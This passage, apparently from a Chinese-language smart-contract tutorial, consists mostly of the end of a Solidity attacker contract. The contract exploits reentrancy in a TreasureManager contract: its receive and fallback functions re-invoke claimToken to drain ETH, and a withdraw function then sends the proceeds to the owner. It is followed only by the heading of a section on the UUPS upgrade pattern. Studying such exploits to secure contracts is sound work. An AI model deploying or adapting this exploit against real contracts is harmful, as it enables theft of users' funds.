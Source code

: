 ```java
        owner = payable(msg.sender);
    }

    function attackClaimToken(address tokenAddress) external {
        attackAmount = 0;
        treasureManager.claimToken(tokenAddress);
    }

    receive() external payable {
        reentrance();
    }

    fallback() external payable {
        reentrance();
    }

    function reentrance() internal {
        address ethAddress = treasureManager.ethAddress();
        uint left = treasureManager.userRewardAmounts(
            address(this),
            ethAddress
        );
        attackAmount += left;
        if (treasureManager.tokenBalances(ethAddress) > attackAmount + left) {
            treasureManager.claimToken(ethAddress);
        }
    }

    function withdraw() public {
        payable(owner).transfer(address(this).balance);
    }
}
```

# 四.UUPS 升级模式

## 1. UUPS 简介

